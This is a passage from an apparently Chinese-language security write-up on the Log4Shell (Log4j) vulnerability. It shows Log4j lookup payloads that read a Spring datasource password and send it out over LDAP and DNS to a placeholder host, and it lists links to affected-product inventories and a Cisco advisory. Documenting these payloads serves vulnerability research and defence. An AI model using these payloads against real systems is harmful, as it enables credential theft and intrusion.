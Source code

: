 payload:

```java
${bundle:application:spring.datasource.password}
ldap://127.0.0.1/${bundle:application:spring.datasource.password}
dns://127.0.0.1/${bundle:application:spring.datasource.password}
```

![图片](../assets/2021-12-15-Log4jshell%E5%90%8E%E7%BB%AD/640.webp)





#### 0x05 受影响列表



汇总:

https://gist.github.com/N0b1ta/d67a41b5582c9315d4148eebb3b3b39e

https://mvnrepository.com/artifact/log4j/log4j/usages

https://github.com/YfryTchsGD/Log4jAttackSurface





CISCO受影响产品

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-apache-log4j-qRuKNEbd#vp



#### 0x06  一些主要产品的利用方式
